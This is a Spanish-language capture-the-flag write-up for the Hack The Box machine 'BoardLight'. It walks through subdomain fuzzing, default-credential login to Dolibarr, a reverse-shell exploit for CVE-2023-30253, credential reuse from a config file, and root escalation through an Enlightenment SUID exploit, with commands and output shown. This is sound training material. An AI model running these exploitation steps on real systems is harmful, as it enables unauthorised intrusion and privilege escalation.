

# BoardLight


• Subdomain Enumeration
• Dolibarr 17.0.0 Exploitation - CVE-2023-30253
• Information Leakage (User Pivoting)
• Enlightenment SUID Binary Exploitation [Privilege Escalation]

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oG allports
```

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p22,80 10.10.10.245 -oN targeted
```

Sin embargo no en

## Enumeración de sudominios

Despues de hacer un escaneo de dominios y subdominios he encontrado este subdominio interesante con el siguiente comando:

```shell
wfuzz -c --hl=517 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.board.htb" http://board.htb
```

```shell
000000072:   200        149 L    504 W      6360 Ch     "crm"   
```

## Inspeccionamos la página web

Nos encontramos un panel de login de un ERP/CRM usa la tecnologia `Doliberr 17.0.0.` 



Buscando las credenciales por defecto vemos que podemos usar `admin:admin`y tras probarlo accedemos a la panel y exploramos que tiene , sin embargo no aparece nada interesante.

por lo tanto vamos a buscar si algun exploit relacionado para la version que tenemos.


##  Intrusión - Explotamos CVE-2023-30253
Encontramos un exploit que podemos utilizar para la version en la que nos entabla una shell por lo tanto vamos a intentar utilizarla.

```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
Para ello lo hacemos de la siguiente manera:

```shell
python3 exploit.py http://example.com login passsword 127.0.0.1 9001
```
Por último obtenemos la shell
 
```shell
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password

```
## User pivoting

Aunque tenemos acceso al servidor nuestro ususario es `www-data`este ususario no nos sirve para ver la flag de user.txt por lo tanto tenemos que mudarnos al ususario `Larissa` podemos intentar varias opciones:

- La primera es probar fuerza bruta en el servicio `ssh` usando el  diccionario `rockyou` este diccionario tiene multiples contraseñas para probar,sin embargo vemos que no encunetra nada 

- La segunda forma es ver si existen ficheros de configuración y nos encontremos con algún usuario y contraseñas .

De esta manera podemos compronbar que en el achivo de configuración nos aparece un usuario y una contraseña

```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Si probamos esta contraseña vemos que es la del usuario Larissa

## Escalada de privilegios:

Comprobamos que podemos hacer los comandos sudo -l este comando como otras veces nos reporta si existe algun fichero que podemos ejecutar como root.

Sin embargo no encontramos nada ,por lo tanto vamos a ver si existen ficheros con permisos SUID o capabilities sospechosas para escalar los privilegios.

Si ejecutamos el comando para listar los binarios que pueden permitir el escaldo nos pecatamos de uno en especial: 

```shell
find / -perm -4000 -user root 2>/dev/null
```

```shell
...
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
... 
```
Podemos ver que el sercicio `enlightenment` es vulnerable comprobamos la version es 0.23.1

## Explotamos el CV-2022-37706
Como se puede ver ene el siguiente enlace encontramos que exploit vulnerable que nos puede devolver una shell con privilegios abusando de este servicio 
```
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit?tab=readme-ov-file
```
Para ello generamos el fichero en nuestro directorio `tmp` y una vez que tenemos esto
ejecutamos el script:

```shell
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root

```


